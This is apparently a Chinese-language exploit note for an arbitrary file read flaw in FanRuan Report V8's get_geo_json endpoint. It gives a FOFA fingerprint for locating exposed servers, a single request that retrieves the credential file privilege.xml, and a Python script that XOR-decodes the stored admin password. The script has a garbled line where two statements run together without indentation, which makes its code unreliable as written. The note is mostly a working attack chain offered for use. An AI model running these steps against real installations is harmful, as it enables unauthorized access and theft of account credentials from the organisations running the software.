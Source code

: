 ## 帆软报表 V8 get_geo_json 任意文件读取漏洞

## fofa
```
body="isSupportForgetPwd"
```

![image](../../images/b38dbaa3-3103-45e7-980b-7f3adf6a95ba.png)


## poc
```
WebReport/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml
```

获得账号密码后进行解密，解密脚本如下
## 解密脚本
```python
cipher = 'XXXXXXXXXXX' #密文
PASSWORD_MASK_ARRAY = [19, 78, 10, 15, 100, 213, 43, 23]
Password = "" cipher = cipher[3:]
for i in range(int(len(cipher) / 4)):
c1 = int("0x" + cipher[i * 4:(i + 1) * 4], 16)
c2 = c1 ^ PASSWORD_MASK_ARRAY[i % 8]
Password = Password + chr(c2)
print (Password)
```
